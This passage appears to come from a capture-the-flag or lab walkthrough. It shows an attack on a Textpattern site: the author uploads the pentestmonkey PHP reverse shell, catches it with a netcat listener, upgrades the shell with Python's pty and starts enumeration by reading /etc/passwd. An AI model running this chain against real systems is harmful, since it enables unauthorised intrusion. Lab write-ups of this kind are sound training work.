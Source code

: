 ```
firefox http://$targ3t/textpattern/textpattern
```

It worked, we're in. There's a variety of things we can do here: post articles, manipulate website pages, upload files. I'm wondering if I can upload a php reverse shell here and send a request to it from the browser.

```
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
```

Change the appropriate credentials, rename to `shell.php` and upload at:

```
firefox http://$targ3t/textpattern/textpattern/index.php?event=file
```

Now when I'm trying to run `nc -lvnp 1234` and navigate to the file from this interface it doesn't do anything. I'm wondering if I can send a request to this file from the browser. I'll check if it appeared in any of the directory listings, that `feroxbuster` has found.

```
firefox http://$targ3t/textpattern/images
firefox http://$targ3t/textpattern/publish
firefox http://$targ3t/textpattern/content
```

And many others didn't have the file we uploaded. So what I did was try

```
firefox http://$targ3t/textpattern/files/shell.php
```

And it worked! We got the shell. Let's upgrade it:

```
python3 -V
```

No `python3` here. 

```
python -V
```

Seems to be Python 2.7.3. Should work:

```
python -c "import pty; pty.spawn('/bin/bash')"
```

Now that we have upgraded the shell, let's find any ways to escalate our privileges:

```
ls /home
```

Nothing in the home folder indicates there are no other users but root on this machine. 

```
cat /etc/passwd
```
